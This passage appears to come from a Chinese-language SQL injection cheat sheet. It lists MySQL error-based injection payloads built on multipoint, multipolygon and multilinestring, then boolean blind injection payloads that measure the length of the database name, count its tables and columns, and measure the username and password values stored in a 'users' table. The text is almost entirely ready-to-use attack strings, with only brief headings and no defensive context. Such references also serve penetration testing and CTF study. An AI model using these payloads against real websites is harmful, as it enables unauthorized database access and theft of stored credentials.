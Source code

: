 #### multipoint
```sql
and multipoint((select * from(select * from(select version())a)b)); --+
```

#### multipolygon
```sql
and multipolygon((select * from(select * from(select version())a)b)); --+
```

#### multilinestring
```sql
and multilinestring((select * from(select * from(select version())a)b)); --+
```

#### 不存在的函数
在`MySQL`中, 当选择一个不存在的函数时, 可能会得到当前所在的数据库名称.

<div align=center><img src="./images/2.png"></div>

### 布尔盲注
以下语句均可以用大于、小于号结合二分法的方式来进行判断, 从而缩短注入所消耗的时长.
#### 判断长度
```sql
# 判断当前数据库的长度
and length(database())=8 --+

# 判断当前数据库里有几张表
and ((select count(*) from information_schema.tables where table_schema=database())=4) --+

# 判断每张表的长度
and  length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+
and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=1--+

# 判断表 users 的列数
and ((select count(*) from information_schema.columns where table_schema=database() and table_name='users')=3) --+

# 判断某张表的列数
and ((select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3) --+

# 判断某张表里对应的字段的数据的长度
and  length((select username from users where id =1))=4 --+
and  length((select password from users where id =1))=4 --+
```
